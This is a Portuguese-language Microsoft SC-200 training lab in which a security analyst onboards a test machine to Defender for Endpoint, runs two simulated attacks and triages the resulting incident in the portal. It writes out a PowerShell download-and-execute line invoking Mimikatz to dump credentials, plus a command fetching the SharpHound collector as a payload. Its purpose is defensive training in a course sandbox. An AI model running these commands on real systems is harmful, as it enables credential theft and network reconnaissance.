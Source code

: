 ```yaml
---
lab:
  title: 'Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade'
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Roteiro de aprendizagem 2, Laboratório 1, Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

## Cenário do laboratório

![Visão geral do laboratório.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Você é um analista de operações de segurança que trabalha em uma empresa que está implantando o Microsoft Defender para Ponto de Extremidade. Seu gerente planeja integrar alguns dispositivos para fornecer informações sobre as alterações necessárias nos procedimentos de resposta da equipe de Operações de segurança (SecOps).

Para explorar os recursos de mitigação de ataques do Defender para Ponto de Extremidade, você executará dois ataques simulados.

>**Observação:** uma **[simulação de laboratório interativa](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** está disponível e permite que você clique neste laboratório no seu próprio ritmo. Você pode encontrar pequenas diferenças entre a simulação interativa e o laboratório hospedado, mas os principais conceitos e ideias que estão sendo demonstrados são os mesmos. 


### Tarefa 1: verificar integração de dispositivos

Nesta tarefa, você confirmará se o dispositivo foi integrado com êxito e criará um alerta de teste.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador Microsoft Edge, acesse (https://security.microsoft.com) e faça logon como Administrador do seu locatário.

1. No menu à esquerda, na área **Ativos** , selecione **Dispositivos**. Aguarde até que WIN1 apareça na página Dispositivos antes de continuar. Caso contrário, talvez seja necessário repetir essa tarefa para ver os alertas que serão gerados posteriormente.

    >**Observação:** se você tiver concluído o processo de integração e não vir dispositivos na lista de dispositivos após uma hora, isso pode indicar um problema de integração ou de conectividade.

1. Selecione **Configurações** na barra de menus à esquerda e, na página Configurações, selecione **Pontos de extremidade**.

1. Selecione **Integração** na seção Gerenciamento de dispositivo e verifique se *"Windows 10 e 11"* está selecionado como sistema operacional. A mensagem *"Primeiro dispositivo integrado"* agora mostra *Concluído*.

1. Role para baixo e, na seção *"2. Executar um teste de detecção"*, copie o script do teste de detecção selecionando o botão **Copiar**.  

1. Na barra de pesquisa do Windows da máquina virtual WIN1, digite **CMD** e escolha **Executar como Administrador** no painel direito do aplicativo Prompt de comando. 

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado. 

1. Cole o script clicando com o botão direito do mouse na janela **Administrador: Prompt de comando** e pressione **Enter** para executá-lo.

    >**Observação:** a janela fecha automaticamente após a execução do script.

### Tarefa 2: ataques simulados

Nesta tarefa, você executa dois ataques *simulados* usando o *PowerShell* em *WIN1* para explorar os recursos do Microsoft Defender para Ponto de Extremidade.

`Attack 1: Mimikatz - Credential Dumping`

1. No computador *WIN1*, digite **Command** na barra de pesquisa e selecione **Executar como administrador**.

1. Na janela do terminal, copie e cole o comando a seguir na janela **Administrador: prompt de comando** e pressione **Enter** para executá-lo.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Você verá uma mensagem com a informação *Acesso negado* e uma mensagem pop-up de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` exibindo *Ameaças encontradas*.

1. Saia da janela **Administrador: prompt de comando** digitando **sair** e pressionando **Enter**.

`Attack 2: Bloodhound - Collection`

1. No computador *WIN1*, digite **PowerShell** na barra de pesquisa, selecione **Windows PowerShell** e selecione **Executar como administrador**.

1. Copie e cole os comandos a seguir na janela **Administrador: Windows PowerShell** e pressione **Enter** para executá-los.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Observação:** Recomenda-se copiar, colar e executar os comandos um de cada vez. Você pode abrir o *Bloco de notas* e copiar os comandos em um arquivo temporário para fazer isso. O primeiro comando cria uma pasta chamada *ExternalPayloads* na mesma pasta onde a pasta *Atomic Red Team* está localizada. O segundo comando baixa o arquivo *SharpHound.ps1* do repositório GitHub do *BloodHound* e o salva na pasta *ExternalPayloads*.

1. Você verá uma mensagem pop-up de `Windows Security Virus and threats protection` exibindo o texto *Ameaças encontradas*.

1. Na janela do terminal, copie e cole o comando a seguir na janela **Administrador: Windows PowerShell** e pressione **Enter** para executá-los.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Se a saída é *True*, o arquivo de payload de malware não foi removido pelo Microsoft Defender Antivirus. Se a saída é *False*, o arquivo de payload de malware foi removido pelo Microsoft Defender Antivirus. Use a tecla de seta para cima para repetir o comando até que a saída seja *False*.

<!---1. From the left menu, under **Endpoints**, select **Evaluation & tutorials** and then select **Tutorials & simulations** from the left side.

1. Select the **Tutorials** tab.

1. Under *Automated investigation (backdoor)* you will see a message describing the scenario. Below this paragraph, click **Read the walkthrough**. A new browser tab opens which includes instructions to perform the simulation.

1. In the new browser tab, locate the section named **Run the simulation** (page 5, starting at step 2) and follow the steps to run the attack. **Hint:** The simulation file *RS4_WinATP-Intro-Invoice.docm* can be found back in portal, just below the **Read the walkthrough** you selected in the previous step by selecting the **Get simulation file** button. 

1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Tarefa 3: investigar os ataques

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**.

1. Um novo incidente chamado "Várias famílias de ameaças foram detectadas em um ponto de extremidade" está no painel direito. Selecione o nome do incidente para carregar seus detalhes.

    >**Observação:** Você deverá ver os alertas *Bloodhound* e Mimikatz* no painel **Alertas**. Em **Ativos/Dispositivos**, o computador *win1* agora terá um **Nível de risco** *Alto*.

1. Selecione o botão **Gerenciar incidente** e uma nova folha de janela será exibida. 

1. Em **Marcas de incidente**, digite "Simulação" e selecione **Simulação (Criar)** para criar uma marca. 

1. Selecione o botão de alternância **Atribuir a** e adicione sua conta de usuário (Eu) como proprietário do incidente. 

1. Em **Classificação**, expanda o menu suspenso. 

1. Em **Atividade esperada e informativa**, selecione **Teste de segurança**. 

1. Adicione quaisquer comentários, se desejar, e selecione **Salvar** para atualizar o incidente e concluir.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Dispositivos e Usuários estão na guia *Ativos*. A guia *História do ataque* exibe o *gráfico Incidente*. **Dica:** algumas guias podem estar ocultas devido ao tamanho da tela. Selecione a guia de reticências (...) para que elas apareçam.

    >**Aviso**: Os ataques simulados aqui são uma excelente fonte de aprendizado por meio da prática. Execute apenas os ataques nas instruções fornecidas para este laboratório ao usar o locatário do Azure fornecido pelo curso.  Você pode executar outros ataques simulados *após* este curso de treinamento ser concluído com esse locatário.

## Você concluiu o laboratório.
